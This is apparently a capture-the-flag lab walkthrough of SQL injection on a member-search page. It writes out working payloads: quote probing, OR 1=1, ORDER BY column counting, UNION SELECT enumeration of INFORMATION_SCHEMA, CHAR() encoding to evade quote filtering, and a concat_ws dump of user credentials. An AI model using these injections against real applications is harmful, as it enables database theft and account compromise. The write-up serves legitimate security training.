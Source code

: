 
in page : http://machineURL/?page=member 

you will find an input field to search for a member by ID

you can retrieve the member details by intering a number in the input field

one of the ways to detect SQL injection is to submit a quote
```
 ' 
``` 
submiting this quote will return this error 
```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1 
```
with that output you can be cofident that this is a vulnerable payload
you can also try inputs like 

```
OR 1=1 to retrive the whole list of membert
notice using this or we get a user named flag with surname GetThe
```

next, we want to retrieve all the tables, we can do that using this query :

```
1 union SELECT null, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES

```

note: in order for union to succseed we need two conditions :

- The individual queries must return the same number of columns.
- The data types in each column must be compatible between the individual queries.

to check for how many columns the original query ruturns, you can test is using ORDER BY clauses and incrementing the specified column index until an error occurs like this :
```
ORDER BY 1--
ORDER BY 2--
ORDER BY 3--
etc.
```

getting the output of all the talbles, notice a users table, thats our baby

we send another query to the database to get all the column names for the users table

```
1 union SELECT null , COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = CHAR(0x75, 0x73, 0x65, 0x72, 0x73)
```

notice that we have encoded the users as CHAR(0x75, 0x73, 0x65, 0x72, 0x73)

that is because whenever we use some kind of quoted input we get a database error, that is propably due the the website implementing some security michanism

with that we get all the users coulmn names so we can construct a query to get all the data all the users

and we do that using this command : 
```
1 union select null, concat_ws(CHAR(124),user_id, first_name, town, country, planet, Commentaire, countersign) from users
```
that gives us all the column values in the second column (surname) separated by | (char(124))

```
5|Flag|42|42|42|Decrypt this password -> then lower all the char. Sh256 on it and it's good !|5ff9d0165b4f92b14994e5c685cdce28
```

you decrypt 5ff9d0165b4f92b14994e5c685cdce28 and you get FortyTwo
lowering all the letters and sh256 on it and we get the flag



